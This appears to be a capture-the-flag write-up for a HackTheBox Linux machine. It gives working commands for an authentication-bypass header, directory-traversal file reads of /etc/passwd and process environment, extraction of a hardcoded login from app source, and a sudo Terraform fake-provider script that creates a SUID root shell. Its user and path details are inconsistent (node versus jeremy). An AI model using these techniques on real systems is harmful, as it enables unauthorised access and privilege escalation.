

# Previous

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**


### 🏁 Summary of Attack Chain

| Step | User / Access | Tools / Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `(Web)` | **Port & Service Enumeration** | Identified **nginx 1.18.0** on port 80. Discovered the **/api/download** endpoint. |
| 2 | `(Web)` | **Vulnerability Research & LFI** | Found a bypass for the `PreviousJS` authentication using the `X-Middleware-Subrequest` header. Combined this with a **Local File Inclusion (LFI)** vulnerability on the `example` parameter of the `/api/download` endpoint. |
| 3 | `(Web)` | **Information Gathering** | Used the LFI to read `/etc/passwd` and `/proc/self/environ`, identifying the `node` and `nextjs` users and the application path `/app`. |
| 4 | `(Web)` | **File Enumeration** | Used the LFI to access the Next.js build output, specifically `/app/.next/routes-manifest.json`, to gather more information about the application's structure. |
| 5 | `node` | **File Enumeration** | Found that user `node` could run **`/usr/bin/terraform`** as **root** with specific options via `sudo -l`. |
| 6 | `root` | **Privilege Escalation** | Exploited the `terraform` sudo permission by creating a **malicious provider binary** and a custom CLI configuration file. This forced `terraform` to execute our script as `root`. |
| 7 | `root` | **System Access** | Our malicious script created a SUID shell at `/tmp/rootsh`, allowing us to execute it as **root** and read the `root.txt` flag. |


### Initial Reconnaissance 

Let's start by scanning the target machine previous.htb to see what ports are open and what services are running.

Bash
```
nmap previous.htb -A
```
Port 22/tcp: Open, running OpenSSH 8.9p1 on Ubuntu.

Port 80/tcp: Open, running an nginx 1.18.0 web server on Ubuntu. The title of the page is "PreviousJS."

The web server on port 80 is our primary target. Let's explore the website and look for any interesting files or directories.

**Web Enumeration and LFI**

The homepage is for a web framework called "PreviousJS." After clicking "Get Started," you're taken to a login page.

Since we don't have credentials, we'll use dirsearch to find hidden directories and files. Let's run it on the root of the site.

Bash
```
dirsearch -u http://previous.htb
```

This returns a bunch of 307 Redirect responses, all pointing to /api/auth/signin. This tells us that most of the API endpoints require authentication.

Let's look for a known vulnerability. A search for "PreviousJS" vulnerabilities might lead us to a specific bypass. We find a vulnerability that can be exploited by adding a specific HTTP header: x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware. This header bypasses the authentication middleware.

Now we can use dirsearch again, but this time, we'll add the bypass header and target the /api/ directory.

Bash
```
dirsearch -u http://previous.htb/api -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```

This scan reveals a peculiar path that returns a 400 Bad Request: /api/download. The "Bad Request" error suggests we're close, but the request isn't quite right. It's likely missing a required parameter.

Let's fuzz for parameters on this endpoint using ffuf to see if we can find one that works.

Bash
```
ffuf -u 'http://previous.htb/api/download?FUZZ=a' -w /usr/share/fuzzDicts/paramDict/AllParam.txt -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -mc all -fw 2
```

The scan identifies an example parameter. When we test it with curl, we get a "File not found" error, confirming that this parameter is likely for a file download function.

Bash

```
curl 'http://previous.htb/api/download?example=aaa' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -v
```

This looks like a potential Local File Inclusion (LFI) vulnerability. Let's try to read a standard system file, /etc/passwd. We'll use the LFI vulnerability with directory traversal (../../../../) to access the file system.

Bash
```
curl 'http://previous.htb/api/download?example=../../../../etc/passwd' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

This works! The command successfully retrieves the contents of /etc/passwd. The output shows two users of interest: node and nextjs.


node:x:1000:1000::/home/node:/bin/sh

nextjs:x:1001:65533::/home/nextjs:/sbin/nologin

The node user's shell is /bin/sh, which is a good sign. We should check for interesting files within their home directories.

Let's use the LFI to check the process environment variables, which can reveal secrets or application paths.

Bash

```
curl 'http://previous.htb/api/download?example=../../../../proc/self/environ' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```


This reveals that the application is running in /app as the nextjs user.

The environment variable PWD=/app confirms the application's working directory. Next.js applications have a predictable file structure. We can look for configuration or source files, especially the routes-manifest.json file inside the .next directory, which can expose API endpoints and other information.

Bash
```
curl 'http://previous.htb/api/download?example=../../../../app/.next/routes-manifest.json' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -s | jq
```


bash

```
curl 'http://previous.htb/api/download?example=../../../../app/.next/server/pages/api/auth/%5B...nextauth%5D.js' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'   
```


```
"use strict";
(() => {
    var e = {};
    e.id = 651, e.ids = [651], e.modules = {
        3480: (e, n, r) => {
            e.exports = r(5600)
        },
        5600: e => {
            e.exports = require("next/dist/compiled/next-server/pages-api.runtime.prod.js")
        },
        6435: (e, n) => {
            Object.defineProperty(n, "M", {
                enumerable: !0,
                get: function() {
                    return function e(n, r) {
                        return r in n ? n[r] : "then" in n && "function" == typeof n.then ? n.then(n => e(n, r)) : "function" == typeof n && "default" === r ? n : void 0
                    }
                }
            })
        },
        8667: (e, n) => {
            Object.defineProperty(n, "A", {
                enumerable: !0,
                get: function() {
                    return r
                }
            });
            var r = function(e) {
                return e.PAGES = "PAGES", e.PAGES_API = "PAGES_API", e.APP_PAGE = "APP_PAGE", e.APP_ROUTE = "APP_ROUTE", e.IMAGE = "IMAGE", e
            }({})
        },
        9832: (e, n, r) => {
            r.r(n), r.d(n, {
                config: () => l,
                default: () => P,
                routeModule: () => A
            });
            var t = {};
            r.r(t), r.d(t, {
                default: () => p
            });
            var a = r(3480),
                s = r(8667),
                i = r(6435);
            let u = require("next-auth/providers/credentials"),
                o = {
                    session: {
                        strategy: "jwt"
                    },
                    providers: [r.n(u)()({
                        name: "Credentials",
                        credentials: {
                            username: {
                                label: "User",
                                type: "username"
                            },
                            password: {
                                label: "Password",
                                type: "password"
                            }
                        },
                        authorize: async e => e?.username === "jeremy" && e.password === (process.env.ADMIN_SECRET ?? "MyNaXXXXXXXXXXXXXXXXakes") ? {
                            id: "1",
                            name: "Jeremy"
                        } : null
                    })],
                    pages: {
                        signIn: "/signin"
                    },
                    secret: process.env.NEXTAUTH_SECRET
                },
                d = require("next-auth"),
                p = r.n(d)()(o),
                P = (0, i.M)(t, "default"),
                l = (0, i.M)(t, "config"),
                A = new a.PagesAPIRouteModule({
                    definition: {
                        kind: s.A.PAGES_API,
                        page: "/api/auth/[...nextauth]",
                        pathname: "/api/auth/[...nextauth]",
                        bundlePath: "",
                        filename: ""
                    },
                    userland: t
                })
        }
    };
    var n = require("../../../webpack-api-runtime.js");
    n.C(e);
    var r = n(n.s = 9832);
    module.exports = r
})();
```

The output confirms our suspicion that there are more API routes, specifically /api/auth/[...nextauth], which is the authentication logic we were trying to bypass initially.

We have a user node, and we know the application is related to Next.js. We need to find a way to pivot from our LFI to get a shell.

Which contains the user credentials we want

```
username: jeremy
password: MyNaXXXXXXXXXXXXXXXXXXes
```

```
ssh jeremy@previous.htb
```


You can log in directly here


### User Exploitation and Privilege Escalation 🛡️

By looking at the sudo -l output for the node user on the box, we can see that they have a very specific, limited sudo permission. This is often a way to provide a controlled path for privilege escalation.

Bash

```
sudo -l
User node may run the following commands on previous:
    (root) /usr/bin/terraform -chdir=/opt/examples apply
```


The user node can run the terraform command as root, specifically terraform -chdir=/opt/examples apply. This is an interesting find. The -chdir flag means Terraform will run in the /opt/examples directory. Let's see what's in there.

Inside /opt/examples, we find a main.tf file. Terraform is a tool for managing infrastructure as code. It uses a provider to interact with a specific API or service. The main.tf file specifies a provider: source = "previous.htb/terraform/examples".

Normally, Terraform fetches providers from a public registry. However, we can use the TF_CLI_CONFIG_FILE environment variable to tell Terraform to use a local provider instead. This is how we'll inject our malicious code.


**We'll create a malicious provider binary that, when executed by Terraform, creates a SUID shell. Terraform expects the provider binary to be in a specific location and to follow a naming convention: terraform-provider-[provider_name]_[version]_[os]_[arch].**

### Steps to get a root shell:

**1. Prepare your working directory**

Create a directory to hold your malicious provider.

Bash
```
mkdir -p ~/privesc
cd ~/privesc
```

**2. Create the malicious provider binary**

We'll create a shell script that copies /bin/bash to /tmp/rootsh and sets the SUID bit on it. This will allow us to run it with root privileges.

Bash
```
cat > terraform-provider-examples_v0.1_linux_amd64 <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootsh
chmod 04755 /tmp/rootsh
EOF
chmod +x terraform-provider-examples_v0.1_linux_amd64
```

**3. Create the Terraform CLI configuration file**

This file will tell Terraform to use our local provider instead of fetching it from the internet. The dev_overrides key must match the source string from /opt/examples/main.tf exactly.

Bash

```
cat > dev.tfrc <<'HCL'
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/home/node/privesc"
  }
  direct {}
}
HCL
```
Note: The path in the dev_overrides must be the absolute path to your malicious provider's directory.

**4. Set the environment variable**

We need to tell the sudo command to use our custom configuration file.

Bash

```
export TF_CLI_CONFIG_FILE=/home/node/privesc/dev.tfrc
```


**5. Execute the sudo command**

Now, run the exact command that sudo -l allows. We'll use yes to automatically confirm the prompt.

Bash
```
yes | sudo /usr/bin/terraform -chdir=/opt/examples apply
```

Note: Terraform might show errors after this, but that's okay. The malicious script has already been executed as root during the provider loading process.

**6. Verify the SUID shell**

Check to see if /tmp/rootsh was created and has the SUID bit set.

Bash
```
ls -l /tmp/rootsh
```

The output should look like this: -rwsr-xr-x 1 root root ..., with the s indicating it is a SUID binary.

7. Get the root shell
Now, execute the SUID shell to become root and get the flag.

Bash
```
/tmp/rootsh -p
```

The -p flag is crucial as it ensures that the effective user ID is retained as root, even though the real user ID is node.

Bash

```
cat /root/root.txt
```



Congratulations, you are now root! 🥳


**Pwned! Previous**


**8) cleanup (optional, good practice)**

From the root shell (or after finishing), remove the SUID shell and provider artefacts:

Bash

```
rm -f /tmp/rootsh
rm -f /home/jeremy/privesc/terraform-provider-examples_v0.1_linux_amd64
rm -f /home/jeremy/privesc/dev.tfrc

```
**Troubleshooting tips**

dev.tfrc key mismatch → Terraform will complain Invalid provider namespace. Ensure the dev_overrides key exactly equals the source string from main.tf.

provider not executable → make sure chmod +x was run.

Terraform shows plugin protocol errors — expected; these errors don’t prevent the provider script from being executed.

If /tmp/rootsh is not SUID — confirm your provider script ran (check timestamps, Terraform output). If it didn’t run, double-check TF_CLI_CONFIG_FILE export and the exact sudo command used.

